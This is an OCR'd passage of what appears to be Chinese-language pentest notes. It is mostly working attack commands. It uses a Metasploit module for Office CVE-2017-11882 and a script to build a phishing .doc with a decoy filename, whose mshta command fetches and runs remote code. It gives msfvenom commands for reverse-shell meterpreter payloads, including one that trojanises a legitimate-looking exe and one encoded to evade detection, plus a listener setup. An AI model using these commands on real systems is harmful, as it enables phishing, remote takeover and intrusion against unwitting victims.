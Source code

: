 与MSF 联动

```
msf6 > use exploit/ajest/office_cve_2017_11882
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(ajest/office_cve_2017_11882) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(ajest/office_cve_2017_11882) > set URIPATH /a
URIPATH => /a
msf6 exploit(ajest/office_cve_2017_11882) > run
```

生成钓鱼文档

```
┌──(ajest💋zh-CN)-[~/tools/office/CVE-2017-11882]
└─$ python Command_CVE-2017-11882.py -c "mshta http://10.9.69.77/a" -o 如何给女朋友过八十大寿.doc
[*] Done ! output file >> 如何给女朋友过八十大寿.doc <<
```

----

### msfvenom

可以利用msfvenom 生成ShellCode，形式多样，从多种编程语言到多平台，再到多种文件格式。简单来说就是生成“木马后门”。

```
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.9.69.77 lport=4444 -f exe -o payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.10.9 lport=4444 -x wecheat.exe -k -f exe -o wecheat.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.69.77 lport=4444 -i 12 -e x86/shikata_ga_nai -f exe -o
payload.exe
```

开启msf 监听

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.9
LHOST => 10.10.10.9
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
```

